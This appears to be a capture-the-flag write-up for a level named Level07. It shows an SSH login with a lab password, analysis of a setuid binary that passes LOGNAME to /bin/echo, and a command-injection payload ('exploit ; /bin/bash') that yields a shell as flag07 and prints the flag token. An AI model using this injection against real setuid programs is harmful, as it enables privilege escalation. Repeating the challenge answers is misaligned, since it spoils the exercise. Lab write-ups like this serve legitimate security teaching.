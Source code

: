 # Level07

## How to Login

To access the system, use the following SSH command:

```bash
ssh level07@<IP_ADDRESS> -p 4242
password: wiok45aaoguiboiki2tuin6ub
```

## How to Get the Flag

Upon logging in, you'll see a simple prompt. The challenge involves exploiting a vulnerability related to environment variables.

### Analyzing the Executable

The `level07` executable, when run, simply prints "level07". This suggests it might be vulnerable to environment variable manipulation. We download the executable using `scp`:

```bash
scp level07@<IP_ADDRESS>:/home/user/level07 ./
```

Then use a tool like Binary Ninja (or `strings`, `gdb`, `objdump`, etc.) to examine the executable. The key finding is the use of the `LOGNAME` environment variable:

```
/bin/echo %s
```

This indicates that the program takes the value of the `LOGNAME` environment variable and passes it to `/bin/echo`. This is a classic command injection vulnerability.

### Exploiting the Vulnerability

The vulnerability can be exploited by setting the `LOGNAME` environment variable to a string that includes a command injection. We want to execute `/bin/bash` to get a shell as `flag07`.

1.  **Set the `LOGNAME` environment variable:**

    ```bash
    export LOGNAME="exploit ; /bin/bash"
    ```

    *   `export LOGNAME=...`: Sets the `LOGNAME` environment variable.
    *   `"exploit ; /bin/bash"`: This is the payload. The semicolon (`;`) allows us to execute a second command after the intended `echo` command.  `exploit` is just a placeholder; the important part is the `;/bin/bash`. The program will effectively execute `/bin/echo exploit ; /bin/bash`.

2.  **Run the `level07` executable:**

    ```bash
    ./level07
    ```

    Because of the modified `LOGNAME` variable, this will:
    *   Print "exploit".
    *   Execute `/bin/bash` *as the `flag07` user* (due to setuid).  You will now have a shell as `flag07`.

3.  **Get the flag:**

    ```bash
    getflag
    ```

    This will output:

    ```
    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
    ```


